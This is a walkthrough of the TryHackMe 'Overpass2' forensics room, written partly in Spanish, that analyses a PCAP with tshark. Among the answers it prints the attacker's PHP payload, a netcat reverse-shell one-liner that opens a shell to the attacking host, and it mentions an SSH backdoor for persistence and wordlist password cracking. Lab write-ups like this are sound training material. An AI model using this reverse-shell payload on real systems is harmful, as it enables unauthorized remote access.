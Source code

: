 # Overpass2 TryHackme Walkthrough

<p align="center">
  <img width="400" height="400" src="https://github.com/ceortiz33/tryhackme/blob/main/OverPass2/images/overpass2.png">
</p>


## Forensics - Analyze the PCAP
Para esta seccion se utiliza un archivo PCAP que nos entregan como evidencia de un ataque.

```
tshark -r overpass2.pcapng -T fields -e ip.dst | sort | uniq -c
```

```
   1463 140.82.118.4
      2 192.168.170.138
    262 192.168.170.145
   2113 192.168.170.159
      2 192.168.170.2
      1 192.168.170.254
      3 224.0.0.22
      4 224.0.0.251
     14 239.255.255.250
      1 91.189.91.157
```

```
# tshark -r overpass2.pcapng -Y "http"

4 0.000326676 192.168.170.145 → 192.168.170.159 HTTP 484 GET /development/ HTTP/1.1 
    6 0.000860947 192.168.170.159 → 192.168.170.145 HTTP 1078 HTTP/1.1 200 OK  (text/html)
   14 7.915992166 192.168.170.145 → 192.168.170.159 HTTP 1026 POST /development/upload.php HTTP/1.1  (application/x-php)
   16 7.916964256 192.168.170.159 → 192.168.170.145 HTTP 309 HTTP/1.1 200 OK  (text/html)
   18 11.984825193 192.168.170.145 → 192.168.170.159 HTTP 401 GET /development/uploads/ HTTP/1.1 
   19 11.985407246 192.168.170.159 → 192.168.170.145 HTTP 788 HTTP/1.1 200 OK  (text/html)
   27 28.574178738 192.168.170.145 → 192.168.170.159 HTTP 466 GET /development/uploads/payload.php HTTP/1.1 
 3562 229.072082387 192.168.170.159 → 192.168.170.145 HTTP 224 GET /cooctus.png HTTP/1.1 
 3585 229.073323788 192.168.170.145 → 192.168.170.159 HTTP 15280 [TCP Spurious Retransmission] HTTP/1.0 200 OK  (PNG)
 3611 235.053124579 192.168.170.159 → 192.168.170.145 HTTP 223 GET /index.html HTTP/1.1 
 3619 235.053836457 192.168.170.145 → 192.168.170.159 HTTP 881 HTTP/1.0 200 OK  (text/html)
 3876 284.434399160 192.168.170.145 → 192.168.170.159 HTTP 472 GET / HTTP/1.1 
 3878 284.434823231 192.168.170.159 → 192.168.170.145 HTTP 788 HTTP/1.1 200 OK  (text/html)
 3880 284.443819303 192.168.170.145 → 192.168.170.159 HTTP 347 GET /cooctus.png HTTP/1.1 
 3890 284.444614924 192.168.170.159 → 192.168.170.145 HTTP 14119 HTTP/1.1 200 OK  (PNG)
```





### What was the URL of the page they used to upload a reverse shell?

```
/dev********/
```

### What payload did the attacker use to gain access?

```
&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

### What password did the attacker used to get access?

```
when******************
```

### How did the attacker establish persistence?

```
https://github.com/*********/ssh-backdoor
```

Using the fasttrack wordlist, how many of the system passwords were crackable?

```
*    A value between 2 and 5
```




